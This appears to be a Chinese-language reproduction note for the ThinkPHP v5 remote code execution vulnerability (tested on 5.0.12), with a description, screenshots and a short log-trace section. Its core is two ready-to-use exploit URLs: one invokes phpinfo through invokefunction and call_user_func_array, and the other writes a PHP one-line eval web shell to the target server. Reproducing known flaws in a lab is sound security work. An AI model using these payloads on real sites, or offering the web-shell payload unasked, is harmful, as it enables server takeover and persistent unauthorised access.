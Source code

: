 ### 参考

freebuf上比较全面的复现及分析：https://www.freebuf.com/vuls/191847.html

### 影响范围

v5
### 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

### 复现

复现环境： thinkphp5.0.12

看了上面的那篇文章，才知道win平台与linux平台payload不太一样，我这里是linux平台。

**写phpinfo**

`/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

![](assets/burp.png)

![](assets/browser.png)

**写一句话木马**

`/index.php/?s=index/\think\template\driver\file/write&cacheFile=axin.php&content=<?php @eval($_POST[axin]);?>`


### 痕迹分析

直接查看http日志

![](assets/trace.png)

### 参考

https://github.com/artsploit/solr-injection